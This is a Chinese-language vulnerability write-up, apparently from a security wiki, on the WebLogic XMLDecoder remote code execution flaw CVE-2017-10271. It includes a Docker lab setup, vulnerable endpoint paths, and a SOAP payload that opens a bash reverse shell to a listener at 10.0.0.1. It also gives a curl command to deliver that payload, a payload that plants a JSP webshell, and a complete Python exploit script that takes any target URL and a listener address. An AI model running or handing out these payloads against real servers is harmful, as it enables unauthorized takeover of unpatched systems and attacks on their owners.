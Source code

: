 # 

# Weblogic XMLDecoder 远程代码执行漏洞 CVE-2017-10271

## 漏洞描述

Weblogic的WLS Security组件对外提供webservice服务，其中使用了XMLDecoder来解析用户传入的XML数据，在解析的过程中出现反序列化漏洞，导致可执行任意命令。

## 漏洞影响

```
Weblogic 10.3.6.0.0
Weblogic 12.1.3.0.0
Weblogic 12.2.1.0.0
Weblogic 12.2.1.2.0
```

## 环境搭建

```plain
git clone https://github.com/vulhub/vulhub.git
cd vulhub/weblogic/CVE-2017-10271
docker-compose up -d
```

访问 http://xxx.xxx.xxx.xxx:7001 正常即可![img](./images/202202091225400.png)

## 漏洞复现

对 http://xxx.xxx.xxx.xxx:7001/wls-wsat/CoordinatorPortType 进行访问，存在这个url则可能存在漏洞

```plain
其他可利用URL
/wls-wsat/CoordinatorPortType
/wls-wsat/RegistrationPortTypeRPC
/wls-wsat/ParticipantPortType
/wls-wsat/RegistrationRequesterPortType
/wls-wsat/CoordinatorPortType11
/wls-wsat/RegistrationPortTypeRPC11
/wls-wsat/ParticipantPortType11
/wls-wsat/RegistrationRequesterPortType11
```

![img](./images/202202091225406.png)

使用POST方法上传以下数据反弹一个shell

```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/10.0.0.1/21 0&gt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```

使用Curl反弹shell (将上面的xml数据保存为poc.xml)

```shell
curl -v -X POST -H "Content-Type: text/xml" --data @poc.xml "http://xxx.xxx.xxx.xxx:7001/wls-wsat/CoordinatorPortType"
```

![img](./images/202202091225539.png)

也可以通过漏洞写入webshell文件

```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
    <java><java version="1.4.0" class="java.beans.XMLDecoder">
    <object class="java.io.PrintWriter"> 
    <string>servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/test.jsp</string>
    <void method="println"><string>
    <![CDATA[
<% out.print("test"); %>
    ]]>
    </string>
    </void>
    <void method="close"/>
    </object></java></java>
    </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>
```

访问 http://xxx.xxx.xxx.xxx:7001/bea_wls_internal/test.jsp 即可得到写入的文件

## 漏洞POC

利用 [weblogic-scan](https://github.com/kingkaki/weblogic-scan)快速检测

![img](./images/202202091225528.png)

- 反弹shell exp

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import requests
import sys
import json

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: Weblogic 10.3.6.0.0            \033[0m')
    print('+  \033[34m         Weblogic 12.1.3.0.0            \033[0m')
    print('+  \033[34m         Weblogic 12.2.1.0.0            \033[0m')
    print('+  \033[34m         Weblogic 12.2.1.2.0            \033[0m')
    print('+  \033[36m使用格式: python3 CVE-2017-10271.py      \033[0m')
    print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx:7001  \033[0m')
    print('+  \033[36mCmd    >>> shell(反弹shell)              \033[0m')
    print('+------------------------------------------')

def POC_1(target_url, IP, PORT):
    vuln_url = target_url + "/wls-wsat/CoordinatorPortType"
    headers = {
        "Content-Type": "text/xml",
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    data = """
        <soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
        <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
        <java version="1.4.0" class="java.beans.XMLDecoder">
        <void class="java.lang.ProcessBuilder">
        <array class="java.lang.String" length="3">
        <void index="0">
        <string>/bin/bash</string>
        </void>
        <void index="1">
        <string>-c</string>
        </void>
        <void index="2">
        <string>bash -i &gt;&amp; /dev/tcp/%s/%s 0&gt;&amp;1</string>
        </void>
        </array>
        <void method="start"/></void>
        </java>
        </work:WorkContext>
        </soapenv:Header>
        <soapenv:Body/>
        </soapenv:Envelope>
    """ % (IP,PORT)
    try:
        response = requests.request("POST", url=vuln_url, headers=headers, data=data)
    except:
        print("\033[31m[x] 漏洞利用失败 \033[0m")


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    IP = str(input("\033[35m请输入监听IP   >>> \033[0m"))
    PORT = str(input("\033[35m请输入监听PORT >>> \033[0m"))
    POC_1(target_url, IP, PORT)
```

![img](./images/202202091225540.png)


